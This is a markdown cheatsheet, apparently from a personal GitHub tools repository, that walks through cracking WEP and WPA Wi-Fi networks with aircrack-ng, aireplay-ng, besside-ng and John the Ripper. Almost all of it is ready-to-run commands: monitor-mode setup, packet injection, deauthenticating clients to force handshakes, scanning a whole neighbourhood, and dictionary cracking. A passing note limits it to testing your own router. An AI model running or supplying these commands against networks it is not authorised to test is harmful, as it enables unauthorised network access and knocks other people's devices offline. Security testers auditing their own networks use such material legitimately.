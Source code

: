 # Wifi

Here are some cheatsheets about wireless cracking. Easy stuff (just for
testing your own routers :P ).

## Common

First you have to put your interface in monitor mode:

```
airmon-ng # list interfaces
airmon-ng start wlan0 # this will create a mon0 interface which should be able to inject
```

Then, get the info of your router (and adjacents) with `airodump-ng mon0`.

When you get yours (should be WEP for this attack), note down ESSID, BSSID and Channel.

Now focus the sniff in your router:

`airodump-ng -a --ivs -w out --channel <channel> --bssid <bssid> mon0`
This will create an `out.cap` file and it will write only interesting packages (ivs).

## WEP

You can use my tool [wepcrackeator](https://github.com/serginator/unix-tools).
It's really easy to use and will guide you and launch the commands for you.

If you want to know what you are doing, then here are the commands.

First execute what's in [Common](#Common) section.

Now we need to associate with the router, execute the following:

```
aireplay-ng -1 6000 -o 1 -q 10 --ignore-negative-one -a <bssid> -h <mymac> mon0
```

Once associated, we are going to use the p0841 injection attack:

```
aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b <bssid> -h <mymac> --ignore-negative-one mon0
```

If you want to deauthenticate a client to get packages, use the following command:

```
aireplay-ng -0 5 -a <bssid> --ignore-negative-one mon0
```

And now you should be getting data for start the cracking process, if not maybe
you need to use other attack like ChopChop or fragmentation, just execute
`aireplay-ng --help` and see the other attacks, mayble a simple ARP injection
could do the trick.

Now launch aircrack-ng and let it cracking while getting data from the router:

```
aircrack-ng -a 1 out.cap
```

It will launch the cracking process when it gets more ivs, so just wait for it.

## WPA

WPA keys can be obtained using dictionaries (or bruteforce) against handshakes.

### Getting handshakes using airodump-ng and aireplay-ng

First execute what's in [Common](#Common) section.

Now we need a client to connect to the router. Connect your phone or other device
and you'll see the handshake on top of airodump-ng. If not, try to deauthenticate
a random client using aireplay-ng:

```
aireplay-ng -0 5 -a <bssid> mon0
```

or force a client to deauthenticate with:

```
aireplay-ng -0 5 -a <bssid> -c <client> mon0
```  

Once you get the handshake you can stop airodump-ng and start cracking it.

### Getting handshakes using besside-ng

Like in the previous method, first put your interface in monitor mode:

```
airmon-ng # lists interfaces
airmon-ng start wlan0 # this will create a mon0 interface which should be able to inject
```

Then, to scan the whole neigborhood (not recommended) use the following command:

```
besside-ng -W -vv mon0
```

To scan an specific bssid (your router) use:

```
besside-ng -W -c <channel> -b <bssid> -vv <interface>
```

Both commands will create a file wpa.cap where you have executed the command.
This file will contain only handshakes, so you can crack it once you get it.

### Cracking the handshake

Just use `aircrack-ng` for the task:

```
aircrack-ng -w <dict-file> <cap-file> # where cap-file is out.cap in first example or wpa.cap in the second
```

If there are several handshakes of several routers, it will ask which one. You
can force it at the beginning adding `-b <bssid>` in the aircrack-ng command.

If you need to be able to pause aircrack-ng and resume it later you'll need to
make use of `John the Ripper` tool.

You should launch the cracking with this command:

```
john --session=wpa --stdout --wordlist=<dict-file> | aircrack-ng -w - -b <bssid> wpa.cap
```

To pause it just hit Ctrl+c once.

To restore it, use the following command:

```
john --restore=wpa | aircrack-ng -w - -b <bssid> wpa.cap
```

